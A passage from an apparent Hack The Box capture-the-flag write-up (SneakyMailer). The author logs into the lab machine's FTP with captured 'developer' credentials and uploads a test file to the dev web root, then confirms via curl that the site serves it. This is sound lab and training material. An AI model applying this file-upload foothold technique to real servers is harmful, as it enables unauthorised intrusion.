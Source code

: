 ### 7. Investigate the files
Looking through the files, there doesn't appear to be anything useful in them - it resembles an idential copy of the main website, which reminded me of the dev subdomain that was discovered earlier. If these files represent a live website on the dev subdomain, then a modification on a file on this FTP account would be reflected on the website. To test this, I cupload a test file to the server and then try and access it through the dev subdomain.
```bash
kali@kali:~/Desktop/htb/sneakymailer/dev$ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jul 20 06:58 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp> put test.html
local: test.html remote: test.html
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5 bytes sent in 0.00 secs (128.4951 kB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
--wxrw-rw-    1 1001     1001            5 Jul 20 07:00 test.html
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp> exit
221 Goodbye.
kali@kali:~/Desktop/htb/sneakymailer/dev$ curl dev.sneakycorp.htb/test.html
test
```
It appears to work.
